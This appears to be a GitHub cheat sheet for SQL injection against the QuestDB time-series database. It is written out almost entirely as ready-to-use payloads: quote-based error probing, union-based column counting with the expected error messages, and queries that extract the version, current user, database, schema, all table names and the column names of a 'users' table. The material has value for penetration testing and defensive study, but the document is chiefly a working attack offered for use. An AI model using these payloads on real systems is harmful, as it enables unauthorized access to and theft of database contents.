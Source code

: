 # QuestDB Injection (time series database):

#### [Linkedin](https://www.linkedin.com/in/meisam-monsef-8693b347/) - [Telegram ID](https://t.me/meisamrce/) - [Telegram Channel](https://t.me/seccode) - [Email](mailto:meisamrce@gmail.com)

## Comments:

    --comment (No space is needed)
    /*comment*/

## Testing Injection : 
        '
        1'  #  get error unclosed quoted string?

## Union Based:

        1' order by 100--                             #order column position is out of range [max=8]
        1' order by 8--                               #no error 
        1' union SELECT 1--                           #queries have different number of columns
        1' union SELECT 1--                           #queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #error queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #error unsupported cast [column=8, from=INT, to=TIMESTAMP]
        1' union SELECT 1,2,3,4,5,6,7,null--          #success

## Version:

         1' union SELECT build(),2,3,4,5,6,7,null--'
         
## Get the current database:

         1' union SELECT current_database(),2,3,4,5,6,7,null--'

## Get the current user:

         1' union SELECT current_user(),2,3,4,5,6,7,null--'

## Get the current schema:

         1' union SELECT current_schema(),2,3,4,5,6,7,null--'

## Get All Tables:

        1' union SELECT table_name,2,3,4,5,6,7,null from tables()--'        #get all none WAL tables
        1' union SELECT table_name,2,3,4,5,6,7,null from all_tables()--'    #get all none WAL tables
        1' union SELECT name,2,3,4,5,6,7,null from wal_tables()--'          #get all WAL tables

## Get columns name for table:

        1' union SELECT column,2,3,4,5,6,7,null from table_columns('users')--'                   #get error table and column names that are SQL keywords
        1' union SELECT "column",2,3,4,5,6,7,null from table_columns('users')--'                 #success
        1' union SELECT string_agg("column",','),2,3,4,5,6,7,null from table_columns('users')--' #get all columns name
